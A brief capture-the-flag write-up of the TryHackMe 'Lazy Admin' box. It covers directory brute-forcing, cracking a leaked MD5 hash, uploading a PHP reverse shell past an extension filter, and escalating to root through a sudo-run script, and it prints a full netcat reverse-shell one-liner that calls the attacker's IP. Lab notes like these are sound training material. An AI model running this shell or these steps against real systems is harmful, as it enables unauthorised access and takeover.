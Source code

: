 # 15. Lazy admin 🧭
Names | Details
--------|-----
Source | tryhackme 
Level     | easy
Os | linux

**Notes :**

#other/GAtactics
#boxtype/easy 
#category/enumBased 
#privilegeEscalation/easy
#programmingLang/perl




## Gaining Access 😉

- gobuster directory bruteforce
- got a directory called content
- gobuster directory bruteforce on subdirectory content. got a break through
- one of the subdirectory contains sql backup
	- just searched passwd on the file 
	- got an md5 hashed password
	- cracked with crackstation
- uploaded a php reverse shell on mediacentre
	- used .php5 to bypass .php filteration



## Maintaining Access 🥷
- sudo -l
- perl script found with rws permission which runs copy.sh
- nc reverse shell pasted to copy.sh & ran script with sudo
- reconnected


## Important commands 🔥
- nc rev shell
	```nc
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.229.254 2222 >/tmp/f
	```

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- if you messed up on gainig access, just bruteforce sub directories for a break through
- bruteforcing sub directories


--------------------------------
**By Nibras Muhammed** 🤓🖥️







